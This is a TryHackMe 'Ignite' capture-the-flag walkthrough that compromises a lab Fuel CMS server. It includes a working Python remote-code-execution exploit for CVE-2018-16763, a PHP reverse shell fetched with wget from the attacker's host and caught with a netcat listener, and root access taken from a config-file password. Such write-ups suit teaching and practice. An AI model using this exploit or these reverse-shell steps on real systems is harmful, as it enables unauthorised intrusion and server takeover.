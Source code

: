 # [Ignite TryHackMe Writeup/Walkthrough][1]
A new start-up has a few issues with their web server.


#### Scan the machine.
> If you are unsure how to tackle this, I recommend checking out the [Nmap Tutorials by Hack Hunt][2].

Command -> `nmap -sV -sC -Pn <IP>`

```
Starting Nmap 7.91 ( https://nmap.org )
Nmap scan report for 10.10.112.107
Host is up (0.056s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS

Service detection performed.
Nmap done: 1 IP address (1 host up) scanned in 10.80 seconds
```

Let's check the website as we have `port 80` open.

It seems like a default page of **Fuel CMS**. I found two interesting things here.

1. Location of the database which can be handy later, provided if I got the access.

![DataBase Location](images/database_credentials.png)

2. Login Credentials for admin and a web panel.

![Login Credentials](images/web_login.png)
> I found nothing interesting in the web panel.

Let's search for exploit already available for **Fuel CMS**. You can look for this online on CVE Details or alternatively you can look into the database available in Kali Linux. CMD -> `searchsploit fuel cms`

```
----------------------------------------------------------- --------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- --------------------------
- fuel CMS 1.4.1 - Remote Code Execution (1)               | linux/webapps/47138.py
- Fuel CMS 1.4.1 - Remote Code Execution (2)               | php/webapps/49487.rb
- Fuel CMS 1.4.7 - 'col' SQL Injection (Authenticated)     | php/webapps/48741.txt
- Fuel CMS 1.4.8 - 'fuel_replace_id' SQL Injection (Authen | php/webapps/48778.txt
----------------------------------------------------------- --------------------------
Shellcodes: No Results
```

*Remote Code Exceution via Python* looks promising. This files are located under `/usr/share/exploitdb/exploits/`. Get a copy of the file and `gedit` or `nano` to edit the file.

![Copy Exploit](images/copy_exploit.png)

The changes you need to make here is the
1. `URL` will be IP of the machine.
2. comment the line where it says `proxy` using **#** and remove `, proxy` from the line where it is `r = ..`. The below code is already edited.

```
# Exploit Title: fuel CMS 1.4.1 - Remote Code Execution (1)
# Date: 2019-07-19
# Exploit Author: 0xd0ff9
# Vendor Homepage: https://www.getfuelcms.com/
# Software Link: https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.4.1
# Version: <= 1.4.1
# Tested on: Ubuntu - Apache2 - php5
# CVE : CVE-2018-16763


import requests
import urllib

url = "http://10.10.112.107"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
	xxxx = raw_input('cmd:')
	burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
	# proxy = {"http":"http://127.0.0.1:8080"}
	r = requests.get(burp0_url)

	html = "<!DOCTYPE html>"
	htmlcharset = r.text.find(html)

	begin = r.text[0:20]
	dup = find_nth_overlapping(r.text,begin,2)

	print r.text[0:dup]
```

Run the file using python -> `python 47138.py`

![Got SHell](images/got_shell.png)
> Got Shell as `www-data`.

You can get the `user_flag` easily. But this shell is unstable. Let's get a `netcat` shell using `php backdoor.` PHP Reverse Backdoor is available in `/usr/share/webshells/php-reverse-shell.php`.

Get the file as same way we did the exploit. `gedit` or `nano` the file and change the `$ip` to your **TryHackMe's IP** and `$port` to `4444` (you can keep the port same).

Now we need to transfer the file to the server. For that start a local server, using `python3 -m http.server`.

To get download the shell, type -> `wget http://<YOUR_IP>:8000/php-reverse-shell.php`. The file will be downloaded in the web server.

Start a listener using `nc -lvnp 4444` and go the website -> `http://<IP>/php-reverse-shell.php` and you will have the access.

![Got Access](images/got_access.png)

Further process to stabilize the shell is

1. `python3 -c 'import pty;pty.spawn("/bin/bash")'`
2. Press `Ctrl + Z`.
3. `stty raw -echo;fg`

You will now have a stable shell with additional functionality.  

Now we can get the user flag.

![User Flag](images/user_flag.png)

### Privilege Escalation

I tried many methods, looked for `sudo -l`, found noting much. Then I check the file location with the database credentials and found the password for `root` user. File location is the ***Step 2*** on the website. The one with configuration file.

![Root Password](images/root_password.png)

To be root user, type, `su root` and the *password* you got form above file.

![Root User](images/root_user.png)

You have the root access. You know what to do next :stuck_out_tongue_winking_eye:

![Root Flag](images/root_flag.png)

[1]: https://tryhackme.com/room/ignite
[2]: https://blog.hackhunt.in/search/label/Nmap
